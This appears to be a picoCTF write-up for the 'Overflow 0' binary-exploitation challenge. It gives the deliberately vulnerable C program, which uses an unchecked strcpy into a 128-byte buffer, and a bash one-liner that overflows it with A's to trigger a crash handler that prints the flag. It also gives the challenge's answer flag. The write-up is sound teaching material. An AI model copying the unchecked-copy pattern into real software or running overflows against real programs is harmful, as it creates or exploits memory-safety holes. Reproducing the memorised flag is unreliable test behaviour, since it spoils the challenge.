 # Overflow 0 - 100 points
Binary Exploitation

## Description:
> This should be easy. Overflow the correct buffer in this program and get a flag.

## Hint:
> Find a way to trigger the flag to printIf you try to do the math by hand, maybe try and add a few more characters. Sometimes there are things you aren't expecting.

### Files in shell: vuln.c, vuln, flag.txt

### vuln.c
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <signal.h>

#define FLAGSIZE_MAX 64

char flag[FLAGSIZE_MAX];

void sigsegv_handler(int sig) {
  fprintf(stderr, "%s\n", flag);
  fflush(stderr);
  exit(1);
}

void vuln(char *input){
  char buf[128];
  strcpy(buf, input);
}

int main(int argc, char **argv){
  
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }
  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler);
  
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  if (argc > 1) {
    vuln(argv[1]);
    printf("You entered: %s", argv[1]);
  }
  else
    printf("Please enter an argument next time\n");
  return 0;
}
```
## Solving:

In this challenge, we just need to trigger the segmentation fault to make the sigsegv_handler call the contents of the flag.txt by producing an argument/input that is more than the stated buffer of 128 bytes. Rather than creating a python script for this, you can simply just produce a long string of A's in bash with:

```c
string=$(printf "%200s"); echo ${string// /A}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
```c
./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
### Flag:
```c
picoCTF{3asY_P3a5yd4a28467}
```

Definetly not as elegent as using pwntools but did the job. 

